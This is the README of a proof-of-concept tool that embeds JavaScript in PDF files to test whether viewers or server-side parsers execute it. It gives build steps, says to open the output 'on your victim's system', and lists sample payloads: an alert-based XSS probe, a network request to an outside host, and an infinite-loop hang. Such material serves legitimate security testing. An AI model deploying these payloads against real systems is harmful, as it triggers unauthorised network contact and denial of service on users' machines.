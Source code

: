 # Generate PDF File Containing JavaScript Code

PDF may contain JavaScript code. 
This script allow us to generate a PDF file which helps us to check if that code is executed when the file is opened.
Possible targets are client applications trying to open the file or serverside backends which are parsing the PDF file.

## HowTo

1. Edit the file `poc.js` with the JS code you want to have included in your PDF file
2. Install the required python modules using `pip install pdfrw`
3. Create the PDF: `python poc.py poc.js`
4. Open the file `result.pdf` on your victim's system

## Possible exploit codes

The full set of available functions is documented here: https://opensource.adobe.com/dc-acrobat-sdk-docs/library/jsapiref/JS_API_AcroJS.html

### XSS (for GUI viewers)

```js
app.alert("XSS");
```

### Open URL

```js
var cURL="http://[REDACTED]/";
var params =
{
     cVerb: "GET",
     cURL: cURL
};
Net.HTTP.request(params);
```

### Timeout

```js
while (true) {}
```

## References

The code is based on https://github.com/osnr/horrifying-pdf-experiments/
